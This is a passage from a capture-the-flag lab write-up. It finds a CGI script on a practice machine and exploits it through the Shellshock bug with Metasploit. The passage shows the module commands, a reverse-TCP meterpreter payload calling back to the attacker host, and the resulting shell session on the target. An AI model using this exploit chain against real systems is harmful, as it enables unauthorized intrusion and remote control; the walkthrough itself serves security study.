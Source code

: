 ```
00016:  C=403     11 L	      32 W	    306 Ch	  ".htpasswd"

Total time: 1392.094
Processed Requests: 20469
Filtered Requests: 20466
Requests/sec.: 14.70374

```

Downloading that script yields:

```
http://10.10.10.56/cgi-bin/user.sh

$ cat user.sh 
Content-Type: text/plain

Just an uptime test script

 22:56:04 up  5:46,  0 users,  load average: 0.08, 0.08, 0.03
```

Not sure if this is anything? Also tried fuzzing over `.bash` and `.cgi` and found
nothing else.

### METASPLOIT SHELL SHOCK?

A google search on metasploit options against `cgi-bin` yields this:

```
https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec

Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
This module exploits the Shellshock vulnerability, a flaw in how the Bash shell handles
external environment variables. This module targets CGI scripts in the Apache web server
by setting the HTTP_USER_AGENT environment variable to a malicious function definition.
```

So let's give this a try!

```
msf > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf exploit(apache_mod_cgi_bash_env_exec) > set RHOST 10.10.10.56
RHOST => 10.10.10.56
msf exploit(apache_mod_cgi_bash_env_exec) > set TARGETURI http://10.10.10.56/cgi-bin/user.sh
TARGETURI => http://10.10.10.56/cgi-bin/user.sh
msf exploit(apache_mod_cgi_bash_env_exec) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
PAYLOAD => linux/x86/meterpreter/reverse_tcp
msf exploit(apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 10.10.16.124:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (847604 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.16.124:4444 -> 10.10.10.56:57606) at 2017-12-22 23:52:04 -0500

meterpreter > ls
Listing: /usr/lib/cgi-bin
=========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100755/rwxr-xr-x  113   fil   2017-09-22 15:29:26 -0400  user.sh

meterpreter > pwd
/usr/lib/cgi-bin
```